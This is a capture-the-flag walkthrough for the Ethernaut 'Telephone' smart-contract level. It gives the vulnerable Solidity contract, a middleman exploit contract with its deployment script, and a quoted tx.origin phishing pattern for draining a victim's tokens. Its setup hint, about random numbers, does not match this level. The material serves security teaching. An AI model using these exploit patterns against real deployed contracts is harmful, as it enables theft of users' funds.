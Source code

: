 # Level 4 - Telephone ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/4" %}

### Level Setup

{% hint style="info" %}
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Telephone.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
{% endcode %}

### Exploit

The contract is vulnerable because the `msg.sender` is the address that sent the transaction to interact with the contract, but this is only the final address if the transaction involved multiple contracts.

1. Create a middleman contract so that `x.origin != msg.sender`.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-4

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-4

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level4.sol" %}

{% code title="src/Level4.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

// ================================================================
// │                      LEVEL 4 - TELEPHONE                     │
// ================================================================
contract TelephoneMiddleman {
    function run(address _targetContractAddress) public {
        ITelephone(_targetContractAddress).changeOwner(msg.sender);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level4.s.sol" %}

{% code title="script/Level4.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {TelephoneMiddleman} from "../src/Level4.sol";

// ================================================================
// │                      LEVEL 4 - TELEPHONE                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        TelephoneMiddleman telephoneMiddleman = new TelephoneMiddleman();
        telephoneMiddleman.run(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```

2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```

3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
{% endhint %}

### Notes

* [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)
* In a simple call chain `A->B->C->D` inside `D` `msg.sender` will be `C` and `tx.origin` will be `A`.

